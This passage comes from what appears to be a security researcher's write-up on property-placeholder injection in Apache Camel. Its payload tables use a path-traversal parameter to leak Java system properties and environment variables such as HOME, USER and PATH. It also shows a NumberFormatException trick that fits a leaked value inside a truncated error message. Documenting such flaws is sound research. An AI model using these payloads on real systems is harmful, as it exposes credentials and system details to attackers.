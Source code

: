 | 3816/../?var=\{\{user.lang}}&x=                           | User Language              |
| 3816/../?var=\{\{user.country}}&x=                        | User Country               |
| 3816/../?var=\{\{os.arch}}&x=                             | OS Architecture            |
| 3816/../?var=\{\{os.version}}&x=                          | Kernel Version             |

All your ~~base~~ System Properties are belong to *us*!

But that is not enough. We got some secrets, leaked some platform/arch info, but all is Java-related, and guess what. I fucking hate Java. Now Linux on the other hand, I love.

Digging a little more into Property Placeholders, I found out that they can fetch values from environment variables of the underlying system, if you prefix them with *env:*. That brings us the following list:

| Payload                                                   | Value                      |
| --------------------------------------------------------- | -------------------------- |
| 3816/../?var=\{\{env: HOME}}&x=                           | User Home Directory        |
| 3816/../?var=\{\{env: USER}}&x=                           | Current User               |
| 3816/../?var=\{\{env: PATH}}&x=                           | Current User Path          |
| 3816/../?var=\{\{env: PWD}}&x=                            | Current Working Directory  |
| 3816/../?var=\{\{env: _}}&x=                              | Last Shell Argument        |

The list goes on, if you get lucky, you might retrieve passwords for services leaked through the environment (**not** uncommon).



### Time to be clever

Most of the times application developers don't just spit out full on stack traces of program failures. It doesn't make any sense to the user, and even by mistake, it's pretty diffuclt to push this mess to production. But, some of the times, due to time constraints or to make debugging a little bit easier on yourself and the beta testers, you might squeeze in a tiny bit of the error, just enough for you to understand what the testers are reporting. Let's say a few chars of the stack trace, say 80. 

In that case, our attack is a constrained. The leaked value is just beyond reach, looking at you behind that 80 char limit and laughing its heart off. In that case, what we need is a way to push our leaked value to the start of the stack trace, so that we manage to squeeze it in that char cap.

And I found a way to do that, a pretty educated one if you ask me, because it originated from a tiny bit of cleverness and a huge part of research on the platform. So what's the magic trick?

I intentionally caused an exception, that I knew contained part of what I intended to leak, right at the very start. The one and only, *NumberFormatException*! Camel supports a URI parameter that is aptly named *okStatusCodeRange*, which parses a String in the format [Number]-[Number] to define a range of response status codes that are considered "OK", hence "no error". And that solved our problem a bit.

{% raw %}
```
3816/../?okStatusCodeRange=1-{{env: HOME}}
```
{% endraw %}
